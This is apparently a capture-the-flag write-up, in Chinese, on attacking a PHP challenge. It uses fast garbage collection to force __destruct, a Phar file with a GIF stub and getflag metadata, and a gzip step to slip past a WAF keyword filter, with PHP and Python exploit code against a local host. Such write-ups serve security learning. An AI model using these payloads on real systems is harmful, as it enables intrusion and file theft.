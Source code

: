 # 思路
	- 使用提前GC绕过throw触发`__destruct`，从而实现利用反序列化实现文件读写
	- 使用Phar文件实现创建getflag类读取flag
	- 使用gzip压缩绕过针对Phar文件的WAF检测
- # 反序列化
	- 最前方有throw阻碍__destruct的进行，需要使用 ((64b5744d-1d6c-43e5-95d5-2121b31d0d57)) 绕过
	- ```php
	  $o = new A();
	  $o -> config = $_POST["config"];
	  $o = [$o, 1, 114514];
	  $payload = serialize($o);
	  $payload = str_replace('i:2;i:114514;', 'i:0;i:114514;', $payload);
	  echo "xxxs". "tart";
	  
	  echo urlencode($payload);
	  
	  echo "xxxstop";
	  ```
- # Phar文件构造
	- 首先创建一个最简单的phar文件，注意metadata应该是一个array，便于后面进行快速GC
		- ```php
		  <?php
		  //反序列化payload构造
		  $o = new getflag();
		  $o = [$o, 114514]; // 一个array
		  //打开phar文件
		  @unlink("phar.phar");
		  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
		  $phar->startBuffering();
		  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
		  
		  //放入对象
		  $phar->setMetadata($o);
		  
		  //添加压缩的文件（test为其中的内容）
		  $phar->addFromString("test.txt", "test114514");
		  $phar->stopBuffering();
		  
		  ?>
		  ```
	- 然后修改phar文件，修改sha1哈希，并使用`gzip phar.phar`压缩phar文件，提交即可
		- ```python
		  
		  base_get("http://127.0.0.1:8081/a.php")
		  
		  with open("test/phar.phar", "rb") as f:
		      content = f.read()
		      print(content)
		      content = content.replace(b"i:1;i:114514;", b"i:0;i:114514;")
		      content = content[:-28] + sha1_hash(content[:-28]) + content[-8:]
		      print(content)
		      with open("modified.phar", "wb") as out:
		          out.write(content)
		  
		  shell.exec("gzip modified.phar")
		  
		  with open("modified.phar.gz", "rb") as f:
		      s = f.read()
		      if result:= re.search(b"(get|flag|post|php|filter|base64|rot13|read|data)", s):
		          print(result)
		          print(s)
		      print(submit(fileread_payload("w"), s))
		      print(submit(fileread_payload("r"), "phar://./tmp/a.txt/test.txt"))
		  
		  _ = shell.exec("rm modified.phar.gz")
		  
		  ```